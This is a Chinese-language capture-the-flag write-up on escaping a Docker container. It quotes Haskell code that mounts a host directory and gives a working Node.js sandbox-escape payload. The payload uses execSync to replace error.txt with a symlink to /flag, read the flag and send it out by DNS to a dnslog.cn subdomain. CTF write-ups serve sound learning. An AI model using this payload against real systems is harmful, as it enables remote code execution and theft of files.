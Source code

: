 根据 hint，需要 docker 逃逸，多个 CVE 尝试无果，翻文章找到一篇 docker 逃逸读取文件的文章

[Tunnel Manager - From RCE to Docker Escape (seebug.org)](https://paper.seebug.org/396/)

根据文章描述，就是找到一个可以控制的文件，之后创建一个软链接到容器外部的 flag

```plain
tunnelCreate :: String -> String -> String -> String -> Maybe String -> IO (Either String TunnelInfo)
tunnelCreate ""   _      _    _    _ = return $ Left "Name must not be empty"
tunnelCreate _    ""     _    _    _ = return $ Left "Server must not be empty"
tunnelCreate name server user pass port = do
    let n = escape name
    let portDef = case port of
            Just p  -> "-p "++p++":3128"
            Nothing -> "-p 3128"

    r <- shExJoin ["docker run -d --restart=always"
                  ,"--device /dev/ppp"
                  ,"--cap-add=net_admin"
                  ,"--name",n,"-h",n
                  ,"-v "++flags_dataDir++":/data", portDef, flags_image
                  ,"/init.sh ", escapeMany [server,user,pass]
                  ]
    case r of
        Left err -> return $ Left err
        Right _  -> tunnelInfo name
```

(这里原理其实就是文章中源码对于可控目录进行了 docker -v 挂载)

这里猜测符合上述情况，而且可控目录为 app 目录，因为前端存在一个输出与错误，软连接指向 error.txt，按照文章 payload 打，得到 flag

```plain
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('ping $(echo $(rm /app/error.txt  && ln -s /flag /app/error.txt && cat /app/error.txt)|base64 -w0)uth1r9.dnslog.cn'); }
            )
        }
    }
};
p.then();
```
